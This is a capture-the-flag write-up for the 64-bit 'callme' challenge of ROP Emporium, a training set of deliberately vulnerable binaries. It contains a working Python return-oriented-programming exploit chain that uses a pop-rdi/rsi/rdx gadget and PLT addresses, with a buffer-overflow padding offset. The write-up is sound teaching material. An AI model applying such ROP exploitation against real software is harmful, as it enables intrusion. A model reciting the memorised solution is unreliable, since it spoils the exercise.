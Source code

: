 # callme-64 bit

and so we begin the third challange of ROP Emporium.   
we are presented with an important message.  
![start](https://user-images.githubusercontent.com/60041914/78276174-58a50d00-751b-11ea-8c5d-b72c9eeff5f9.png)

and so we read them.(https://ropemporium.com/challenge/callme.html)  
"You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g."    
    
ok. calling the functions will not suffice this time.  
the return address will be pushed on to the stack and our ROP chain will be ruined.  
    
what we can do instead is jump to the PLT.
(if you are not already farmiliar with the PLT you should read Appendix A in https://ropemporium.com/guide.html)  
![calls](https://user-images.githubusercontent.com/60041914/78276181-59d63a00-751b-11ea-8a8b-93292e80e4ee.png)
  
 we need to find gadgets that allow us to control rdi,rsi and rdx to change the parameters.   
    
 running ROPgadget we get:   
 ```nasm
 0x0000000000401ab0 : pop rdi  pop rsi  pop rdx  ret
 ```
 we can write a ROP chain based on that.   
 ```python
 SET_PARAMS=0x00401ab0

CALLME_ONE=0x00401850
CALLME_TWO=0x00401870
CALLME_THREE=0x00401810

exploit=b'A'*40
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_ONE)
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_TWO)
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_THREE)
 ```
   
   
![pwned](https://user-images.githubusercontent.com/60041914/78276186-5b076700-751b-11ea-9daf-527c00681303.png)
